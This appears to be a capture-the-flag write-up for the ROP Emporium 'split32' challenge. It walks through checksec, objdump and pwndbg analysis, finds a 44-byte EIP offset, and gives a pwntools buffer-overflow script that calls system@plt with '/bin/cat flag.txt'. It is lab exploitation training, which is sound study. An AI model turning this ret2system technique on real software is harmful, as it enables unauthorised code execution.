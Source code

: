 First of all, use checksec to get some binary information
```shell
[marco@marco-pc Downloads]$ file split32
split32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f8a6d6bf3d264d331ecbf9d1e6858d6eac124b89, not stripped
[marco@marco-pc Downloads]$ checksec --file=split32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   80 Symbols     No	0		3	split32
```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table
```shell
[marco@marco-pc Downloads]$ objdump -t split32
...
080485f6 l     F .text	00000053              pwnme
...
08048649 l     F .text	00000019              usefulFunction
...
0804a030 g     O .data	0000001a              usefulString
```

There are some interesting stuff:
- pwnme, which is called from main, print some strings and get an input;
- usefulFunction perfom a system comand "/bin/ls"
- usefulString is "/bin/cat flag.txt"
```gdb
pwndbg> disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x08048649 <+0>:	push   ebp
   0x0804864a <+1>:	mov    ebp,esp
   0x0804864c <+3>:	sub    esp,0x8
   0x0804864f <+6>:	sub    esp,0xc
   0x08048652 <+9>:	push   0x8048747
   0x08048657 <+14>:	call   0x8048430 <system@plt>
   0x0804865c <+19>:	add    esp,0x10
   0x0804865f <+22>:	nop
   0x08048660 <+23>:	leave  
   0x08048661 <+24>:	ret    
End of assembler dump.
pwndbg> x/s 0x8048747
0x8048747:	"/bin/ls"
pwndbg> x/s 0x0804a030
0x804a030 <usefulString>:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the EIP. Jumping at system@plt with usefulString as parameter, we can read the flag.
Let's find out how many bytes we need to fill until EIP
```gdb
pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

...

split by ROP Emporium
32bits

Contriving a reason to ask user for data...
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.

...

 EIP  0x6161616c ('laaa')

...

pwndbg> cyclic -l 'laaa'
44
```

Final exploit:
NOTE: Instead of "BBBB" we could use exit() address for a clean termination
```python
from pwn import *

system_addr = 0x8048430
string_addr = 0x804a030
 
expl = ("A"*44).encode()
expl += p32(system_addr)
expl += ("BBBB").encode()
expl += p32(string_addr)
 
p = process('./split32')
p.recvuntil('>')
p.sendline(expl)
print(p.recvall().decode())
```
